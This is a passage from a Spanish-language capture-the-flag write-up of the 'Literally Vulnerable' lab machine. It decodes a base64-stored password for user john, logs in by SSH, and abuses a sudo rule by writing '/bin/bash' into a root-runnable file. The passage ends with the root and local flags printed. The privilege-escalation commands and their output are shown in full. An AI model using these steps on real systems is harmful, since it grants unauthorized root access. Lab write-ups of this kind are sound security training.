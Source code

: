 ```bash

john@literallyvulnerable:/home/john$ echo am9objpZWlckczhZNDlJQiNaWko= | base64 -d; echo
john:YZW$s8Y49IB#ZZJ
```

## Escalación de privilegios

---

Ingresamos por SSH con el usuario `john`{: .filepath} y listamos los permisos del usuario sobre el sistema.

```bash
❯ ssh john@10.11.12.35
john@literallyvulnerable:~$ sudo -l
[sudo] password for john:
Matching Defaults entries for john on literallyvulnerable:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on literallyvulnerable:
    (root) /var/www/html/test.html
```

John puede ejecutar como root el archivo `test.html` dentro de `/var/www/html`{: .filepath}. 

Dicho archivo no existe, el inconveniente es que `john`{: .filepath} no tiene permisos sobre la carpeta pero sí `www-data`{: .filepath}, con el cual ganamos la reverse shell, volvemos a esta y generamos el archivo con nuestro código.

```bash
john@literallyvulnerable:/var/www/html$ echo "/bin/bash" > test.html
-bash: test.html: Permission denied

www-data@literallyvulnerable:/var/www/html$ echo "/bin/bash" > test.html
www-data@literallyvulnerable:/var/www/html$ chmod +x test.html
```

Ahora ejecutamos el archivo y somos root, listamos las flags restantes: root.txt y local.txt.

```bash
john@literallyvulnerable:/var/www/html$ sudo /var/www/html/test.html
root@literallyvulnerable:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@literallyvulnerable:/var/www/html# cd /root/
root@literallyvulnerable:/root# ls
root.txt
root@literallyvulnerable:/root# cat root.txt
It was
 _     _ _                 _ _         _   _       _                      _     _      _
| |   (_) |               | | |       | | | |     | |                    | |   | |    | |
| |    _| |_ ___ _ __ __ _| | |_   _  | | | |_   _| |_ __   ___ _ __ __ _| |__ | | ___| |
| |   | | __/ _ \ '__/ _` | | | | | | | | | | | | | | '_ \ / _ \ '__/ _` | '_ \| |/ _ \ |
| |___| | ||  __/ | | (_| | | | |_| | \ \_/ / |_| | | | | |  __/ | | (_| | |_) | |  __/_|
\_____/_|\__\___|_|  \__,_|_|_|\__, |  \___/ \__,_|_|_| |_|\___|_|  \__,_|_.__/|_|\___(_)
                                __/ |
                               |___/

Congrats, you did it! I hope it was *literally easy* for you! :)
Flag: pabtejcnqisp6un0sbz0mrb3akaudk

Let me know, if you liked the machine @syed__umar

root@literallyvulnerable:/home/doe# cat local.txt
Congrats, you did it! I hope it was *easy* for you! Keep in mind #EEE is the way to go!
Flag: worjnp1jxh9iefqxrj2fkgdy3kpejp
```
